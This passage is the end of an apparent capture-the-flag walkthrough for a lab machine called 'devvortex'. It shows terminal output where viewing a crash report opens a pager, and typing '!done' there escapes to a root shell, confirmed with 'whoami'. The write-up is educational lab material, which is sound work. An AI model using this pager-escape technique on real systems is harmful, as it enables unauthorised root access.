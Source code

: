
After executing the command i was able to gain root access.

```bash
What would you like to do? Your options are:
S: Send report (1.5 KB)
V: View report
K: Keep report file for sending later or copying to somewhere else
I: Cancel and ignore future crashes of this program version
C: Cancel
Please choose (S/V/K/I/C): V
root@devvortex:/home/logan# exit
exit
!done  (press RETURN)
root@devvortex:/home/logan# whoami
root
root@devvortex:/home/logan# 
```

Now, simply going to /root directory we can cat out the root flag. 
Hope this walkthrough was really interesting and you got to learn something new. Thankyou.
